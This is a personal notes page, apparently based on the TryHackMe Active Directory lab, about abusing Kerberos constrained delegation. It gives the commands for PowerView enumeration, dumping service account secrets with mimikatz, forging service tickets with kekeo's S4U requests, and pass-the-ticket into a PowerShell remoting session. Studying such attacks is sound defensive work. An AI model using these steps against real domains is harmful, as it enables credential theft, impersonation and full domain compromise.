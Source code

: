 # Kerberos delegation

> Note that "Kerberos delegation" and "Permission delegation" are 2 different terms. When "AD delegation" is mentioned, it usually refers to "Kerberos delegation".

## Resources

1. **Constrained delegation abuse**

{% embed url="https://docs.specterops.io/ghostpack/rubeus/constrained-delegation-abuse" %}

2. **PowerShell remoting**

{% embed url="https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.5" %}

3. **PowerView**

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

4. Kerberos protocol extensions: Service for User (S4U)

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/3bff5864-8135-400e-bdd9-33b552051d94" %}



## Important notice

The examples shown below uses the [kekeo](https://github.com/gentilkiwi/kekeo) tool, which is not maintained anymore and may not work as expected. However, the command examples are used to illustrate the basic workflow of the process in a lab environment ([TryHackMe exploiting AD](https://tryhackme.com/room/exploitingad) room), along with explanations based on my understanding.

[Rubeus](https://github.com/GhostPack/Rubeus) is a tool that is heavily adapted from the _kekeo_ project, and provides similar functionalities. Refer to the [kekeo/rubeus](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/tools/kekeo-rubeus) documentation for information on Rubeus.

## Constrained vs Unconstrained delegation

1. **Unconstrained**&#x20;

* service accounts have no limits on the delegation
* this means that they are able to access any services



2. **Constrained**&#x20;

* service accounts can only be delegated to certain specified services
* this means that they can only access certain controlled services

## Constrained Delegation Exploitation steps

### Overview of attack

1. Enumerate the available delegations (PowerSploit `Get-NetUser` cmdlet)

* Delegation permissions can be seen from the `msDS-AllowedToDelegateTo` property



2. Retrieve the credentials of the service account (with constrained delegation permission)

* eg. run mimikatz `lsadump::secrets` as an administrator, etc.



3. We can use the credentials obtained to request for a _Ticket Granting Ticket_ (**TGT**) as the service account user: **kekeo** `tgt::ask`&#x20;

* The newly created **TGT** can be used to request for a _Ticket Granting Service_ (**TGS**) on behalf of a specified user ([Service for User (S4U](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/3bff5864-8135-400e-bdd9-33b552051d94))): **kekeo** `tgs::s4u`&#x20;

> This is possible due to the Kerberos protocol extension: Service for User and Constrained Delegation protocol that allows an application to obtain a Kerberos service ticket on behalf of a user.&#x20;

This means that we can use the **TGT** for a service account to request for a valid **TGS** for _**ANY**_ user account of our choice, as long as the service account has the proper delegation permission for the service in question (service should be listed in the service account's `msDS-AllowedToDelegateTo` property).

Effectively, this means that once we have stolen the password for a service account (with permission delegations to a particular service), we can create a **TGS** for _**ANY**_ user of our choice, and gain access to that service.&#x20;

If the service is of high value, this can lead to impersonation of high-privilege accounts and potentially lead to full domain compromise.



4. Now that we have obtained the **TGS** for our desired user account and service, we can perform a Pass-the-Ticket attack using the mimikatz `kerberos::ptt` tool, and gain access to that particular service as the specified user.

### General example

#### Step 1

Given that we have breached a machine and gained administrative access, we can first try to enumerate available delegations. To achieve this, we can use the `Get-NetUser` cmdlets from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1):&#x20;

```powershell
PS C:\> Import-Module C:\dir\to\PowerSploit\PowerView.ps1
PS C:\> Get-NetUser -TrustedToAuth
```

#### Step 2

Next, we can use **mimikatz** to dump the secrets of the service account (given that there is a service currently running on the host as that particular service account):

```powershell
mimikatz # token::elevate
mimikatz # lsadump::secrets
```

#### Step 3

Now that we have the secret (password), we can use it to retrieve the _Ticket Granting Ticket_ (TGT) as the service account. Subsequently, we can generate the _Ticket Granting Service_ (TGS) for a particular user account and service that our identified service account (step 1) can delegate.

> Note that we will first retrieve the **TGT** as the service account, which will be used in the subsequent **TGS** request to retrieve the **TGS** for a user of our choice — administrator account, etc.

{% code overflow="wrap" %}
```powershell
kekeo # tgt::ask /user:<service_account> /domain:<domain> /password:<password>
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:<servicename>
```
{% endcode %}

#### Step 4

Now that we have retrieved the _Ticket Granting Service_ (TGS) for our user of choice and desired service, we can use it to perform a _Pass-the-Ticket_ attack. This will allow us to authenticate to the service we have identified earlier.

{% code overflow="wrap" %}
```powershell
mimikatz # privilege debug
mimikatz # kerberos::ptt ...
mimikatz # exit
```
{% endcode %}

### Example: exploiting PowerShell remoting

According to the [TryHackMe exploiting AD](https://tryhackme.com/room/exploitingad) room, [PowerShell remoting](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.5) uses the HTTP and WSMAN services as well. This means that we can use the TGT we have retrieved to create TGS for both HTTP and WSMAN, before performing a _Pass-the-Ticket_ attack, which will allow us to gain a remote session on a target machine.

{% code overflow="wrap" %}
```powershell
PS> Get-Netuser -TrustedToAuth
...
userprincipalname        : svcIIS@za.tryhackme.loc                          
name                     : IIS Server   
...
msds-allowedtodelegateto : {WSMAN/THMSERVER1.za.tryhackme.loc, WSMAN/THMSERVER1, http/THMSERVER1.za.tryhackme.loc, http/THMSERVER1}
...
```
{% endcode %}

> Note that we have to generate the TGS for both the HTTP and WSMAN services

{% code overflow="wrap" %}
```powershell
kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:http/<target>
Ticket in file 'TGS_http_xxxx'

kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:wsman/<target>
Ticket in file 'TGS_wsman_xxxx'
```
{% endcode %}

Perform _Pass-the-Ticket_ with the newly created TGS:

```powershell
mimikatz # kerberos::ptt TGS_http_xxxx
mimikatz # kerberos::ptt TGS_wsman_xxx

mimikatz # exit
```

> Refer to the "PowerShell remoting" resource in the Resources section above

Given that we generate a TGS (**kekeo**) as a user that is an administrator on our target machine, we will now have administrative access.

{% code overflow="wrap" %}
```powershell
PS C:\> New-PSSession -ComputerName <computer_name>
...

PS C:\> Enter-PSSession -ComputerName <computer_name>
[xxxx]: PS C:\Users\<username> whoami
user_xxx
```
{% endcode %}

